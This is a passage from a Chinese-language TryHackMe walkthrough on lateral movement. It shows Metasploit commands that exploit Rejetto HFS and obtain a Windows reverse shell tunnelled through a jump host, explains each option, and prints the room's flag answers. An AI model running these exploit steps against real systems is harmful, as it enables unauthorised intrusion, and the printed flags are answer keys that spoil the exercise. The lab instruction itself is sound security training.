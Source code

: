</div>

:::

一旦所有端口转发就位，我们可以启动 Metasploit 并配置漏洞利用，使所需端口与我们通过 THMJMP2 转发的端口匹配：

```shell title="AttackBox"
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

这里有很多内容需要解释：

- LHOST 参数通常有两个作用：用作攻击者机器上绑定反向 Shell 的监听器的 IP，以接收反向 Shell；还嵌入到有效载荷中，让受害者知道在触发漏洞利用时要连接回哪里。在我们的具体情况中，因为 THMDC 无法连接到我们，我们需要强制有效载荷连接回 THMJMP2，但我们需要监听器绑定到攻击者机器上的 127.0.0.1。为此，Metasploit 提供了一个可选参数 `ReverseListenerBindAddress` ，可以用来单独指定攻击者机器上监听器的绑定地址，与有效载荷将连接回的地址分开。在我们的示例中，我们希望反向 Shell 监听器绑定到攻击者机器上的 `127.0.0.1` ，而有效载荷连接回 THMJMP2（因为它将通过 SSH 隧道转发到攻击者机器）。
- 我们的漏洞利用还必须运行一个 Web 服务器，用于托管并将最终的有效载荷发送回受感染的服务器。我们使用 SRVHOST 来指示监听地址，在本例中是 127.0.0.1，以便攻击者机器将 Web 服务器绑定到本地主机。虽然这可能有些违直觉，因为没有外部主机能够指向攻击者机器的本地主机，但 SSH 隧道会负责将在 THMJMP2 上接收的任何连接转发回攻击者的机器。
- RHOSTS 设置为指向 127.0.0.1，因为 SSH 隧道将通过与 THMJMP2 建立的 SSH 隧道将请求转发到 THMDC。RPORT 设置为 8888，因为发送到攻击者机器上该端口的任何连接都将转发到 THMDC 上的端口 80。

启动漏洞利用后，你将在攻击者的机器上收到一个 Shell。你会在 `C:\hfs\flag.txt` 中找到一个标志。

:::info Answer the questions below

在 THMIIS 上的 t1_thomas.moore 桌面上执行 “flag.exe” 获得的标志是什么？

<details><summary> 具体操作步骤 </summary></details>

```plaintext
THM{SIGHT_BEYOND_SIGHT}
```

在 THMDC 上使用 Rejetto HFS 漏洞获取的标志是什么？

<details><summary> 具体操作步骤 </summary></details>

```shell
THM{FORWARDING_IT_ALL}
```

:::

## Conclusion

在这个房间里，我们讨论了攻击者在获得一组有效凭据后如何在网络中移动的许多方式。从攻击者的角度来看，拥有尽可能多的不同技术来执行横向移动总是有帮助的，因为不同的网络可能会有各种限制，可能会阻止或不阻止某些方法。
